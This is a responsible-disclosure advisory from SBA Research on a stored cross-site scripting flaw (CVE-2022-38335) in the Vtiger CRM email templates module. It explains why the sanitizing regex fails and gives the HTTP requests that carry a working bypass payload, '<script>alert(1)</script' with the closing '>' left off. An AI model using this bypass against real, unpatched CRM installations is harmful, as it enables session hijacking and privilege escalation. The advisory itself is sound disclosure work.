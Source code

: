# Vtiger CRM Stored Cross-Site Scripting #

## Vulnerability Overview ##

Vtiger CRM 7.4.0 or below is prone to a stored cross-site scripting
vulnerability in the email templates module due to insufficient sanitizing.

* **Identifier**            : SBA-ADV-20220328-01
* **Type of Vulnerability** : Cross Site Scripting
* **Software/Product Name** : [Vtiger CRM](https://code.vtiger.com/vtiger/vtigercrm)
* **Vendor**                : [Vtiger](https://www.vtiger.com/)
* **Affected Versions**     : <= 7.4.0
* **Fixed in Version**      : Not yet
* **CVE ID**                : CVE-2022-38335
* **CVSS Vector**           : CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:L/A:N
* **CVSS Base Score**       : 7.6 (High)

## Vendor Description ##

> Vtiger is a PHP based web application that enables businesses to increase
> sales wins, marketing ROI, and support satisfaction by providing tools for
> employees and management work more effectively, capture more data, and
> derive new actionable insights from across the customer lifecycle.

Source: <https://code.vtiger.com/vtiger/vtigercrm>

## Impact ##

An authenticated attacker with the "Email Templates"-module privilege is able
to insert JavaScript into email templates, which is triggered when a victim
views the template.
In the worst case, the victim's session could be hijacked and the attacker is
able to perform actions in the victim's context.
This could lead to privilege escalation if the victim is more privileged than
the attacker (for example an admin).

## Vulnerability Description ##

The following code snippet (`./modules/Emails/models/Mailer.php`) shows the
function which should ensure that JavaScript is removed from the user input:

```php
[...]
public static function getProcessedContent($content) {
    // remove script tags from whole html content
    $processedContent = preg_replace('#<script(.*?)>(.*?)</script>#is', '', $content);
$processedContent = purifyHtmlEventAttributes($processedContent,TRUE);
    return $processedContent;
}
[...]
```

However, the regex `#<script(.*?)>(.*?)</script>#is` is insufficient for
sanitizing JavaScript.

## Proof of Concept ##

If the attacker inserts the payload `<script>alert(1)</script` into an email
template, the JavaScript code will not be removed, because the regex does not
work due to the missing `>`.
The following request demonstrates saving a template containing the malicious
payload:

```http
POST /index.php HTTP/1.1
Host: example.org
Cookie: PHPSESSID=[...]
[...]

__vtrftk=[...]&module=EmailTemplates&action=Save&record=16&subject=Invitation&systemtemplate=1&templatename=Invite+Users&description=Invite+Users&moduleFields=&modulename=Contacts&templateFields=%24contacts-salutation%24&generalFields=&templatecontent=%3Chtml%3E%0D%0A%3Chead%3E%0D%0A%09%3Ctitle%3E%3C%2Ftitle%3E%0D%0A%3C%2Fhead%3E%0D%0A%3Cbody%3E%0D%0A%3Cscript%3Ealert%281%29%3C%2Fscript%0D%0A%3C%2Fbody%3E%0D%0A%3C%2Fhtml%3E%0D%0A
```

To load the content of the corresponding template, the following request is
sent by the victim:

```http
POST /index.php HTTP/1.1
Host: example.org
Cookie: PHPSESSID=[...]
[...]

__vtrftk=[...]&module=EmailTemplates&action=ShowTemplateContent&mode=getContent&record=16
```

The server responds with the content that contains the injected JavaScript:

```http
HTTP/1.1 200 OK
[...]

{"success":true,"result":{"content":"<html>\r\n<head>\r\n\t<title><\/title>\r\n<\/head>\r\n<body>\r\n<script>alert(1)<\/script\r\n<\/body>\r\n<\/html>\r\n"}}
```

After that, the HTML content is inserted into the iframe with the id
`TemplateIFrame`, where the JavaScript is executed within the victim's
browser.

## Recommended Countermeasures ##

We are not aware of a vendor fix yet. Please contact the vendor.

In other places of the source code, in addition to the
`purifyHtmlEventAttributes` function, the `purify` function of the class
`HTMLPurifier` is used to sanitize JavaScript.
The function `getProcessedContent` should also use `HTMLPurifier` instead of
the regex.

## Timeline ##

* `2022-03-28`: identified the vulnerability in version 7.4.0
* `2022-03-28`: initial vendor contact through public address
* `2022-03-28`: disclosed vulnerability to vendor
* `2022-04-14`: vendor will look into vulnerability
* `2022-05-30`: contacted vendor again but received no reply
* `2022-08-12`: request CVE from MITRE
* `2022-09-16`: MITRE assigned CVE-2022-38335
* `2022-09-27`: public disclosure

## References ##

* Vtiger CRM 7.4.0: <https://code.vtiger.com/vtiger/vtigercrm/repository/archive.zip?ref=7.4.0GA>

## Credits ##

* Corinna Rudlstorfer ([SBA Research](https://www.sba-research.org/))
* Thomas Kostal ([SBA Research](https://www.sba-research.org/))
* Jakob Pachmann ([SBA Research](https://www.sba-research.org/))
